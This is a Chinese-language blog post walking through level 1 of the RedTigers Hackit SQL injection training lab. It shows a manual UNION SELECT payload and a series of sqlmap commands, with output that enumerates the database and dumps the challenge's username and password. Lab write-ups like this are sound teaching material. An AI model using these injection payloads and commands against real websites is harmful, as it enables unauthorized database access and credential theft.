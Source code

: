 ```yaml
---
layout: post
category: "hack"
title: "RedTigersHackit[第一关]"
tags: ["sqlmap技术分享"]
---
```


#### 1.安装扩展
- RedTigers-Hackit是一个训练SQLi（SQL注入漏洞）
- <https://redtiger.labs.overthewire.org/> 
- 闲的没事儿，搜了一下，网上有答案 
- 第一关答案:
- https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,username,password from level1_users
- 好吧，这不是我想要的结果
- 既然是sql注入用sqlmap吧，在liunx下习惯了命令行
- git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
- 直接python sqlmap.py -xxxxxx 就可以使用


#### 2.其实我就想知它怎么来的：
```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1"
```
得到如下所示，存在注入点，union注入，4列字段：

```
sqlmap identified the following injection points with a total of 60 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 9340=9340

    Type: UNION query
    Title: MySQL UNION query (75) - 4 columns
    Payload: cat=1 UNION ALL SELECT 75,75,CONCAT(0x7178767871,0x555a4759637151794e4e,0x71626b6271),75#
---
[21:59:54] [INFO] testing MySQL
[21:59:59] [INFO] confirming MySQL
[22:00:08] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL >= 5.0.0
[22:00:08] [INFO] fetched data logged to text files under '/root/.sqlmap/output/redtiger.labs.overthewire.org'
```

还是猜一下库名吧：

```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" --current-db
```

```
[*] starting at 22:18:29

[22:18:29] [INFO] resuming back-end DBMS 'mysql'
[22:18:29] [INFO] testing connection to the target URL
[22:18:35] [INFO] heuristics detected web page charset 'ascii'
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 9340=9340

    Type: UNION query
    Title: MySQL UNION query (75) - 4 columns
    Payload: cat=1 UNION ALL SELECT 75,75,CONCAT(0x7178767871,0x555a4759637151794e4e,0x71626b6271),75#
---
[22:18:39] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL 5
[22:18:39] [INFO] fetching current database
current database:    'hackit'
[22:18:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/redtiger.labs.overthewire.org'

```
表名页面有提示，省掉一步：
Tablename: level1_users 

猜列名：

```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" -D "hackit" -T "level1_users" --columns
```
得到结果，其实到这里就不用再猜了，重要的两个字段出来了

```
[22:23:13] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 12
[22:23:20] [CRITICAL] maximum number of used threads is 10 avoiding potential connection issues
please enter number of threads? [Enter for 1 (current)] 10
[22:23:25] [INFO] starting 10 threads
[22:23:41] [INFO] retrieved: username
[22:23:42] [INFO] retrieved: id
[22:27:05] [INFO] retrieved: password
[22:47:24] [INFO] tried 1245/2526 items (49%)
[22:47:27] [CRITICAL] connection dropped or unknown HTTP status code received. Try to force the HTTP User-Agent header with option '--user-agent' or switch '--random-agent'. sqlmap is going to retry the request
[22:47:27] [WARNING] if the problem persists please try to lower the number of used threads (option '--threads')
[22:48:14] [INFO] tried 1275/2526 items (50%)
```

看用户名和密码

```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" -D "hackit" -T "level1_users" -C "username,password" --dump

```

两个字段内容

```
[22:52:35] [WARNING] unable to retrieve column names for table 'level1_users' in database 'hackit'
[22:52:35] [INFO] fetching entries of column(s) 'password, username' for table 'level1_users' in database 'hackit'
[22:52:44] [INFO] analyzing table dump for possible password hashes
Database: hackit
Table: level1_users
[1 entry]
+----------+-------------+
| username | password    |
+----------+-------------+
| Hornoxe  | thatwaseasy |
+----------+-------------+

```
在网站第一关输入后，过关。

>
- 请尊重本人劳动成功，可以随意转载但保留以下信息 
- 作者：岁月经年 
- 时间：2015年5月
